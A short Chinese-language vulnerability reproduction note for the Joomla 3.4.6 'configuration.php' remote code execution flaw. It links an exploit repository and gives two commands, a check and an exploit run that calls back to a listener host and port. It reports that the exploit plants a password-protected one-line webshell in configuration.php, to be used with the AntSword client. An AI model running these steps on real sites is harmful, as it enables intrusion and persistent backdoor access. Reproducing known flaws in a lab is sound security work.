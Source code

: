 Joomla 3.4.6 - \'configuration.php\' 远程代码执行
=================================================

一、漏洞简介
------------

Joomla 3.4.6 - \'configuration.php\' Remote Code Execution

二、影响范围
------------

Joomla 3.0.0 至 3.4.6

三、复现过程
------------

<https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution>

### 脚本验证

验证：

    python3 test.py -t http://127.0.0.1:8080/

![](./.resource/Joomla3-3.4.6远程命令执行漏洞/media/rId26.png)

显示"Vulnerable"证明存在漏洞

利用：

    python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

![](./.resource/Joomla3-3.4.6远程命令执行漏洞/media/rId27.png)

执行成功

并在"configuration.php"写入**随机密码**的一句话木马
![](./.resource/Joomla3-3.4.6远程命令执行漏洞/media/rId28.png)
上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

image

